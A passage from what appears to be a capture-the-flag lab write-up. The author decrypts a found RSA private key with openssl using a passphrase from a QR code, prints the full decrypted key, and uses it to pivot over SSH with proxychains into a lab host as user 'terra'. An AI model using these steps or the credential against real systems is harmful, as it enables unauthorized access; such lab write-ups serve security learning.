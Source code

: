 A private key? Encrypted though :( Remembering the string I got from the QR code earlier that had no affiliation to anything yet, I tried that as the password to decrypt:

```bash
root@kali:# openssl rsa -in terra_key -out terra_key_nopass
Enter pass phrase for terra_key: # entered Nk9yY31hva8q
writing RSA key

root@kali:~# cat terra_key_nopass 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyekXwhcscSSzT3vw5/eL2h1Bb55vEIOOAkQpIQQ/ldnyT6Yt
w0dAaN71JidjfojzvdaZRNrRY5wkdHUr2t93TJx8vKDZ+n5up4nCKle3p2sz2hKP
DhP7LvxkVTM7Io3qoAYXefggTOWvfoK8X8pXE3xAdIyF4uCXmDjeg6UKoCr5XiWP
12YQEODLd+tp9RH4R/rCaencsNsta45sY1NXtWuJje4HVkPV8ei04ce8SP5PwVhV
sfp2Hxr8g4IKn7ZTwtmkD1SuvmZoyDHNAsToqFt2RiVE9yLQj94Gcagx7PqUijeH
b+4T+6tuDZtjgct4RdYZejnUOYx+iHiSjl6xCQIDAQABAoIBADYOi+fQ4HsiQkeD
fUn9gpnQv1Ys6rtXHUwKB6DpTETIZxFgAlyH1Py+xI+EeCTGcctfiwVeODUc9r2f
KTCeJ4iBVPwDbJieBO4h+bPwbCEMmINH+LjiLJu1wv70il6D9E8Hkn17Ktqrm8KZ
KenTeGClIXSSsr29N5jvkNNZ+nBK116l2TNNSsiWGc3VnezgCuRnDMSuKmA4P/OD
5F/h2/1sC33P1P5zxSMMsUZbm616AXNdv2DxHYm5b7p0L3/wzpZaJ+ZCp9jutbMO
P7XADZrFSn1EOk9blfVQz77GhRUVAotXKv7Jj4x+zHjq2l3n2Jk5RwJLl8iw4vZ+
ActgrskCgYEA5RhweA1naUanRJtlnLY4ywjfpZffPOZovmthqeOYdSJmwdmKvf08
bBR7hRwwlwgD92jeZWC1nK2zjwVpVQqV3sq4+x6Yspp0T5d9hp7PqUvPGglRdPXX
JQjMBV/Q2fK+ydnTz3xImjIvGsoFya9B/COKicu5ugCklCxtdNPJd/8CgYEA4Z9c
cekfgeha7sYe202krz0m03b8IqFaEMBUkEDmr8+RTL2H+9ciu3/2y/0UJ20w3qwe
gWv2OvOmumJ2wi/HVQdoQ9purzKWDdes6QrQsZ6+4eeylQmVmBSOF9YiVudSwyBM
+2rmE4m4qAIVidIJskb6DpB+fxDU1iWFLHlUFvcCgYEArxV8buOfkp+CmjZA9AF3
agQAGCf3Xi2hA1ZBr3rXOz3tVl0RYZ21ncwRkms231Yq4dxtiwDcCz/dKIK0O1/5
pek8cf6yKF1OYr2eG1In1nSvdHCGpmJz6EPO2JSfotGX6d/ltn5/ZgjQYyLeRYMB
ZNcsu57M9FAld3B0voJVSLUCgYACac72VPUGUbLvTOU1mU4CpdfNeT9XK3yoIzaE
WH1fMgwu0vQqaHGxqbu9ENbvWQalyxeEcOAwXzzQT49Pom0yZqLh3utCKntaaI0r
7Pawf68xAWZym6ii+M1QSfUSEuVauvS317vgR5/XBDaww7Ng2cuA7mC8ATUVmU8k
W6PfnwKBgQCBapB8OxxeRoFlnctafkTqtlNU5MGgiUGCCk/NNpDJhzaBuSdxdbRB
bQ6OJjQ9fbjF24w1iOJCGTtMQ0fxer7oxoM8TblM/eYx3Dg6MwsVApP75VdqzSas
mlJnXivwgJkeju+L42BMEl4UaxuhFPBSNCmlLBPj3Hdgyh5LSyIKmw==
-----END RSA PRIVATE KEY-----
```

Considering that **192.168.3.50** was named as `terra` in that `/etc/hosts` file, I attempted authentication using this key on it:

```bash
root@kali:~# proxychains ssh -D 8001 terra@192.168.3.50 -i terra_key_nopass 
ProxyChains-3.1 (http://proxychains.sf.net)
Linux dev2 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Nov  9 07:13:31 2014 from 192.168.3.200
terra@dev2:~$
```
